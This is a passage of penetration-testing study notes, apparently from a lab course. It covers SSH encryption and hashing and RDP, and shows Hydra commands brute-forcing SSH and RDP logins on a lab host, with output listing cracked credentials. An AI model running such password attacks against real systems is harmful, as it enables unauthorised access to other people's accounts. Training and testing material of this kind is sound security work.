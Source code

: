 #### Asymmetrical Encryption

Asymmetric encryption uses `two SSH keys`: a private key and a public key. The private key must remain secret because only it can decrypt the messages that have been encrypted with the public key. If an attacker obtains the private key, which is often not password protected, he will be able to log in to the system without credentials. Once a connection is established, the server uses the public key for initialization and authentication. If the client can decrypt the message, it has the private key, and the SSH session can begin.

#### Hashing

The hashing method converts the transmitted data into another unique value. SSH uses hashing to confirm the authenticity of messages. This is a mathematical algorithm that only works in one direction.

#### Hydra - SSH

We can use a tool such as `Hydra` to brute force SSH. 
```c
r3so1v3@htb[/htb]$ hydra -L user.list -P password.list ssh://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:03:51
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 25 login tries (l:5/p:5), ~2 tries per task
[DATA] attacking ssh://10.129.42.197:22/
[22][ssh] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```

## Remote Desktop Protocol (RDP)

Microsoft's [Remote Desktop Protocol](https://docs.microsoft.com/en-us/troubleshoot/windows-server/remote/understanding-remote-desktop-protocol) (`RDP`) is a network protocol that allows remote access to Windows systems via `TCP port 3389` by default. RDP provides both users and administrators/support staff with remote access to Windows hosts within an organization

#### Hydra - RDP

We can also use `Hydra` to perform RDP bruteforcing.
```c
r3so1v3@htb[/htb]$ hydra -L user.list -P password.list rdp://10.129.42.197

Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-10 15:05:40
[WARNING] rdp servers often don't like many connections, use -t 1 or -t 4 to reduce the number of parallel connections and -W 1 or -W 3 to wait between connection to allow the server to recover
[INFO] Reduced number of tasks to 4 (rdp does not like many parallel connections)
[WARNING] the rdp module is experimental. Please test, report - and if possible, fix.
[DATA] max 4 tasks per 1 server, overall 4 tasks, 25 login tries (l:5/p:5), ~7 tries per task
[DATA] attacking rdp://10.129.42.197:3389/
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: mrb3n password: rockstar, continuing attacking the account.
[3389][rdp] account on 10.129.42.197 might be valid but account not active for remote desktop: login: cry0l1t3 password: delta, continuing attacking the account.
[3389][rdp] host: 10.129.42.197   login: user   password: password
1 of 1 target successfully completed, 1 valid password found
```
